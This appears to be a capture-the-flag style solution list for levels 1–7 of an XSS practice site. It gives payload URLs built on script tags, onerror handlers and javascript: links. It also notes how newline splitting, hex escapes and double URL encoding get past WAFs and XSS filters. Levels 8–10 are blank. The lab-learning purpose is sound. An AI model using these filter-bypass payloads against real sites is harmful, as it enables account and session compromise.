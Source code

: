 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads. \
Level 7 : https://zixem.altervista.org/XSS/7.php?name=zxm%253Cscript%253Ealert(1337)%253C/script%253E \
To double encode < (%253C) and (%253E)> for use in an XSS payload, need to encode them twice using URL encoding \
Level 8 :
Level 9 :
Level 10 :

